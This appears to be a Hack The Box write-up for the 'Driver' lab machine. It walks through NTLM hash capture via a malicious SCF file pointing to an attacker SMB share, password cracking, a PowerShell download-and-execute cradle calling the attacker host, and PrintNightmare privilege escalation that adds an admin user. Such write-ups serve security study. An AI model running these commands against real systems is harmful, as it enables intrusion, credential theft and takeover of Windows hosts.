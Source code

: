 ```yaml
---
layout: single
title: Driver - Hack The Box
excerpt: "Driver is an easy Windows machine that focuses on printer exploitation. Enumeration of the machine reveals that a web server is listening on port 80, along with SMB on port 445 and WinRM on port 5985. Navigation to the website reveals that it protected using basic HTTP authentication. While trying common credentials the 'admin:admin' credential is accepted and we are able to visit the webpage. The webpage provides a feature to upload printer firmwares on an SMB share for a remote team to test and verify. Uploading a Shell Command File that contains a command to fetch a remote file from our local machine, leads to the NTLM hash of the user 'tony' relayed back to us. Cracking the captured hash to retrieve a plaintext password we are able login as 'tony', using WinRM. Then, switching over to a meterpreter session it is discovered that the machine is vulnerable to a local privilege exploit that abuses a specific printer driver that is present on the remote machine. Using the exploit we can get a session as 'NT AUTHORITY\\SYSTEM'."
date: 2025-05-13
classes: wide
header:
  teaser: /img2/driver.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Windows
  - Easy
tags:
  - Password Guessing
  - SCF Malicious File
  - Print Spooler Local Privilege Escalation (PrintNightmare) [CVE-2021-1675]
---
```


## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.106
```

![](/img2/Pasted%20image%2020250513093712.png)

- Version and vulnerability scan

```bash
nmap -sCV -p135,445 -vvv 10.10.11.106
```

![](/img2/Pasted%20image%2020250513094009.png)

## Exploitation

- Default password

![](/img2/Pasted%20image%2020250513094105.png)

- Malicious scf file

```
[Shell]
Command=2
IconFile=\\10.10.16.2\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

![](/img2/Pasted%20image%2020250513102137.png)

```bash
impacket-smbserver smbFolder -smb $(pwd) -smb2support
```

![](/img2/Pasted%20image%2020250513102233.png)

```bash
john hash.txt -wordlist=/usr/share/wordlists/rockyou.txt
```

![](/img2/Pasted%20image%2020250513102407.png)

- Conect with EvilWinRM

```bash
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

## Post-exploitation

- Run enumeration script WinPEAS

```bash
./winPEASx64.exe
```

![](/img2/Pasted%20image%2020250513130643.png)

- CVE-2021-1675 - PrintNightmare

```bash
wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/refs/heads/main/CVE-2021-1675.ps1
```

```bash
python3 -m http.server
```

```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.2:8000/exploit.ps1')
```

```powershell
Invoke-Nightmare -DriverName "Xerox" -NewUser "pyuser" -NewPassword "pyuser" 
```

![](/img2/Pasted%20image%2020250513133824.png)

```bash
evil-winrm -i 10.10.11.106 -u pyuser -p pyuser
```

![](/img2/Pasted%20image%2020250513134132.png)